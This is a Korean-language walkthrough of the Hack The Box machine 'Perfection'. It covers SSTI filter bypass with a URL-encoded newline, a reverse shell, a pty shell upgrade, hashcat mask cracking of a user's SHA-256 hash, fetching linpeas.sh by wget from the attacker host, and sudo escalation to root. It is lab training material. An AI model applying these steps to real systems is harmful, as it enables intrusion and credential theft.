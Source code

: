 # hack the box: perfection

- SSTI(Server Side Template Injection)취약점: 웹 어플리케이션에 적용되어 있는 웹 템플릿 엔진(Web Template Engine)에 공격자의 공격 코드가 템플릿에 포함된 상태에서 서버 측에서 템플릿 인젝션이 발현되는 공격을 의미

- category1=1&grade=50&weight=1…
    - SSTI에 취약함
- burpsuite로 테스트를 진행한다.
    - 입력 값을 넣는 곳에 %0A를 넣고 \` \` 안에 스크립트를 삽입한 후 스크립트 전체를 url인코딩하여 실행한다.
        - %0A=\n(개행문자)
        - 개행 문자를 넣은 이유는 스크립트를 그냥 삽입할 경우 malicious code detected 경고가 나와 필터링을 하고 있는 것을 알아차릴 수 있기 때문에 우회 목적으로 넣음
- 반복적인 코드를 템플릿 문서로 만드는 구조로 되어 있다.
- ${7*7}을 넣어 49가 나오는 것으로 보아 server side에서 script가 실행되는 것을 알 수 있다.
    - hacktricks에서 해당 문서를 참조
    - 언어, 프레임워크마다 명령어 종류가 다양함
- reverseshell generator를 이용하여 코드를 생성
    - burpsuite에 넣고 url encoding을 하여 reverse shell을 얻을 수 있다.
    - category1=Maths%0A` <스크립트 삽입>`

- which 로 프로그램 경로 찾을 수 있음
- python3 -c ‘import pty;pty.spawn(”/bin/bash”)’를 한다.
    - pseudo-terminal interface를 import함
    - 그 후 bash shell을 실행
        - 그 이유
        - 완전한 대화형 셸로 업그레이드 하려는 목적
        - 여러 편의성을 위해서 시도
        - 만약 완전한 상호 작용 기능을 제공할 경우 필요 없음
- user.txt의 플래그 값을 찾을 수 있다.

- sqlite3 pupilpath_credentials.db로 db파일을 읽어 susan의 해시 값을 읽을 수 있다.
    - 전 단계에서 susan이 sudo 그룹에 속한 것 때문에 susan의 해시 값을 크랙한다.
    - 만약 그룹에 속하지 않았다면 다른 사용자를 크랙해야 한다.

- hashcat susan.txt /usr/share/wordlists/rockyou.txt
- 크랙은 되지 않았지만 해시 값의 종류를 sha-256으로 좁힐 수 있다.
- hashcat -m 1400 susan.txt /usr/share/wordlists/rockyou.txt 로 시도
    - -m 1400 :sha-256으로 지정
- linpeas.sh를 실행
    - kali에서 python3 -m http.server 4444로 서버 오픈
    - server 터미널에서 wget http://10.10.14.44:4444/linpeas.sh로 다운로드 시킨다.
    - chmod +x linpeas.sh로 하여 실행
- linpeas 결과 중 mail결과에서 pw format을 찾을 수 있다.
    - {firstname_firstname}_{reversed_random}_{integer between1 and 1billion}
    -                                             1000000000(9자리 수)
        
- hashcat -m 1400 -a 3 susan.txt susan_nasus_?d?d?d?d?d?d?d?d?d
    - -a 3: brute force mode
    - ?d : 9자리수 무작위 숫자 지정
- hashcat -m 1400 -a 3 susan.txt susan_nasus_?d?d?d?d?d?d?d?d?d —show로 결과 값 확인
- sudo bash로 크랙 된 pw를 삽입 후 whoami로 root권환을 획득할 수 있다.

# 보충

- [linpeas.sh](http://linpeas.sh) 기능?
    - linux, macOS에서 권한 상승 가능한 리스트를 나타내는 스크립
